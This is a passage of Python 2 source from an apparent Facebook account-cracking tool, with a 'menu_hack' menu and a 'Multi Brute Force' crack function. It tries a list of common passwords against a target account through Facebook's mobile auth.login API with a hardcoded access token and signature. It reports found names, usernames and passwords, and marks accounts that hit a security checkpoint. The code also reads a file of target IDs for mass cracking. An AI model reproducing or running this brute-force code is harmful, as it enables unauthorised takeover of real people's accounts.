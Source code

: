 													print "\033[1;91m[+] \033[1;92mFound"
													print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
													print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
													print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz6
													raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
													menu_hack()
												else:
													if 'www.facebook.com' in y["error_msg"]:
														print "\033[1;91m[+] \033[1;92mFound"
														print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
														print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
														print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
														print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz6
														raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
														menu_hack()
													else:
														pz7 = "sayang123, sayang, bintang, bajingan, someone, anjing, pukimak, playboy, doraemon, bahagia"
														data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
														y = json.load(data)
														if 'access_token' in y:
															print "\033[1;91m[+] \033[1;92mFound"
															print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
															print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
															print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz7
															raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
															menu_hack()
														else:
															if 'www.facebook.com' in y["error_msg"]:
																print "\033[1;91m[+] \033[1;92mFound"
																print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
																print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
																print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
																print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz6
																raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
																menu_hack()
															else:
																print "\033[1;91m[!] Sorry, failed to open the target password :("
																print "\033[1;91m[!] try it another way."
																raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
																menu_hack()
	except KeyError:
		print "\033[1;91m[!] Terget not found"
		raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
		menu_hack()
										
								
##### Multi Brute Force #####
##### CRACK ####
def crack():
	global idlist,passw,file
	os.system('reset')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('reset')
	print logo
	idlist = raw_input('\033[1;91m[+] \033[1;92mFile ID  \033[1;91m: \033[1;97m')
	passw = raw_input('\033[1;91m[+] \033[1;92mPassword \033[1;91m: \033[1;97m')